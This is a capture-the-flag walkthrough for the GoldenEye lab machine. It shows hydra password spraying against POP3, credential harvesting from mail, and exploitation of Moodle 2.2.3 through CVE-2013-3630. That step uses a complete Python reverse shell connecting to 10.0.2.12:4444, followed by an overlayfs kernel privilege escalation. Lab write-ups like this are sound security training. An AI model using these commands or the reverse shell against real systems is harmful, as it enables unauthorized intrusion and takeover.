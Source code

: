 > Bruteforcing, pop3 server, exif tool

# Ports

* **80** : Golden eye webpage
* **25** : Smtp server
* **5506** : POP3 server with ssl
* **5507** : POP3 server
### Port 80, 5507 are used for exploiting

# 80
1. `gobuster` gave 0 results.
2. Webpage displays a link /sev-home. Which triggers a login form. Browser response contains the header (www-authenticate)
3. Inspecting `terminal.js` file in the homepage gives a login for `boris` with password `InvincibleHack3r` in html encoding.
4. Ran `nikto -host 10.0.2.16` gives a /splashAdmin.php path.
5. /SplashAdmin.php contains a list of messages. A message from admin says that `clang` is used instead of `gcc`  in the system, this is useful if we have to do privilege escaltion using kernel exploits.
6. Possible users are boris,natalya, xenia, janus from the SplashAdmin page

# 5506,5507
1. POP3 servers. We can use `nc` to connect to it and authenticate to see the list of mails

# EXPLOITATION

After Logging into the /sev-home. The page asks us to communicate with network in charge via pop3. The in-charges are boris and natalya - obtained from html comments in the page.

## hydra
1. Password spraying pop3  port 5507 with hydra with usernames boris and natalya
2. `hydra -l boris -P ~/Wordlist/Kali/fasttrack.txt -s 55007 10.0.2.16 pop3`
    "hydra use login as boris and password from fasttrack.txt list on 10.0.2.16 at the pop3 port  55007"
3. Same command is used for natalaya and we obtain passwords `secret1!` and `bird`
4. fasttrack.txt is a small password list and can be used to check for popular passwords

## netcat
1. `nc 10.0.2.16 55007`
	- We login as natalya by `user natalya`\<CR\>`pass bird`
	- List emails with `list`. It shows 3 emails. We open them by `retr 1` `retr 2` etc
	- From the emails we obtain info to add `severnaya-station.com` to add to the  /etc/host file and the presence of a webapplication at severnaya-station.com/gnocertdir
	- The login info for the webapplication `xenia` with password `RCP90rulez!` 

2. `nc 10.0.2.16 55007`
	- We login as boris by `user boris`\<CR\>`pass secret1!`
	- Reads the emails and finds that boris is working for janus a terrorist organisation

We proceed to `severnaya-station.com/gnocertdir` and login with `xenia`'s credential obtained from the email. We do a gobuster scan, which gives us no useful results
The webapplication is a cms `moodle` with an RCE for versions 2.2 and 3.9 but we can't determine the version the cms is running. We need admin login for getting version info
Xenia has a Message from  `doak` asking her to contact him in the pop3 server in case of assistance.
Password spraying with hydra gives us password `xWinter1995x!` for user `doak` in the pop3 server using the fasttrack.txt
We list the mails of the `dr_doak` which contains his credentials for `severnaya-station/gnocertdir` :  `dr_doak` and `4England!` as password
The mail also asks us to look for the private files in his `gnocertdir` account

We login as doak and view the private file. The private file instructs us to visit `severnaya-station/dir007key/for-007.jpg` for getting the admin account password.
We navigate to the link to see the image. Downloads it for viewing exifdata.

## Exif
1. `exif for-007.png` shows a base64 encoded value in the description field. Base64 decoded value is `xWinter1995x!` which is the admin password

Logging in as admin and we find the moodle version to be `2.2.3`  in the environment setting. 
**CVE-2013-3630** [description here.](https://www.rapid7.com/db/modules/exploit/multi/http/moodle_cmd_exec/) . Path for aspell binary in the system can be changed in editor settings.
We can put a reverse shell code instead of the path and the cms will execute it when we select spell correction in the tinymce editior.

**NOTE: By default tinymce editor use google for spell checking. We need to change it to PSpellShell in [site administration>plugins>text editors>tinymce html editor] for our reverse shell code to execute.**

` python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.12",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' `

Add the above python reverse shell in **[site administration>server>system paths]** to the aspshell path. Obtained from pentest monkey.

Do spell checking by creating a new blog to obtain the reverse shell

# Actions in the low privilege shell
1. SUID,sudo,crontab related privesc checks are done and kernel exploit is the only viable solution.
2. Overlayfs privilege escaltion for ubuntu [ exploitdb ](https://www.exploit-db.com/exploits/37292)
3. Since the system uses clang instead of gcc, as we have noted during enumeration, we modify lines in our exploit to remove `gcc` references and rename them to `clang` and send them to the target system.
4. Compiling using `clang ofs.c ofs` in /tmp folder of the system.
5. Run the `binary`

6. We are now root.

